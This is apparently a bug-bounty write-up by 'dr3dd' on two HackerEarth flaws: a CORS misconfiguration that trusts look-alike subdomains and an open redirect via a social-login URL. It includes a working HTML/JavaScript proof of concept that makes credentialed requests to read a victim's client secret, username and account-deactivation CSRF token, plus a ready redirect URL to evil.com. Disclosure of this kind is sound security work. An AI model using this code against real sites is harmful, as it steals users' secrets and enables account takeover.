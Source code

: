 ```yaml
---
title:      Stealing secrets tokens and all private info of hackerearth users  
date:       2020-07-10 11:31:19
author:     dr3dd
summary:    Stealing secrets tokens of hackerearth account 
categories: Bug-Bounty
thumbnail:  book
tags:
 - Bug-Bounty
---
```


Hi all,

I found two bugs in hackerearth. one of them is fixed and other is still not fixed.

### 1. cores misconfiguration (fixed)

When i change the origin header in request to `https://www.hackerearth.com.evil.com` the responce i got is:

```python
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://www.hackerearth.com.evil.com
```

I backend regex onlly check for `www.hackerearth.com` after `https://`. So i made a subdomain of my site `www.hackerearth.com.dr3dd.live` after passing this domain
in request i got the response is:

```python
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://www.hackerearth.com.dr3dd.live
```

We can see `Access-Control-Allow-Credentials: true` for `www.hackerearth.com.dr3dd.live`. So i wrote a small js script to steal secrets tokens of victim.

```html
<!DOCTYPE html>
<html>
<body>

<div>
<h1>Getting hackerearth Client secrets for victim!!!</h1>
<button type="button" onclick="loadDoc()">Get secrets!!!</button>
  <div id="demo1"></div>
  <div id="demo2"></div>
  <div id="demo3"></div>
<button type="button" onclick="get_csrf_token()">You can get any csrf token and make changes in victim account like this is account deactivate csrf token!!!</button>
  <div id="demo4"></div>
</div>

<script>
function loadDoc() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
        var parser=new DOMParser();
        var xmlDoc=parser.parseFromString(this.responseText, "text/html").documentElement;
        var clientId = xmlDoc.querySelector('#client-id');
        var clientSecret = xmlDoc.querySelector('#client-secret');
        var username = xmlDoc.querySelector('#change-username');
        document.getElementById("demo1").innerHTML = clientId.innerText;
        document.getElementById("demo2").innerHTML = clientSecret.innerText;
        document.getElementById("demo3").innerHTML = username.innerText.replace('Edit','');;
        
    }
  };
  xhttp.open("GET", "https://www.hackerearth.com/users/profile-settings/", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
function get_csrf_token(){
  var xhttp = new XMLHttpRequest();
    xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
        var parser=new DOMParser();
        var xmlDoc= parser.parseFromString(this.responseText, "text/html").documentElement;
        var csrf = xmlDoc.querySelector('#deactivate-form')[0].value;
      document.getElementById("demo4").innerHTML = "csrf for deactivate account : " + csrf;
    }
  };
  var username = document.getElementById("demo3").innerText;
  var url = "https://www.hackerearth.com/deactivate/" + username.replace("Username: ","");;
  xhttp.open("GET", url, true);
  xhttp.withCredentials = true;
  xhttp.send();
}
  
  
</script>

</body>
</html>
```

I have hosted it on `http://www.hackerearth.com.dr3dd.live/cores.html` first button steal secrets token and second one steal csrf tokens of victim.


### 2. Open Redirect 

This one is pretty simple bug. for open redirect go to :

`https://www.hackerearth.com/social-login-complete-page/?redirect=https://evil.com`
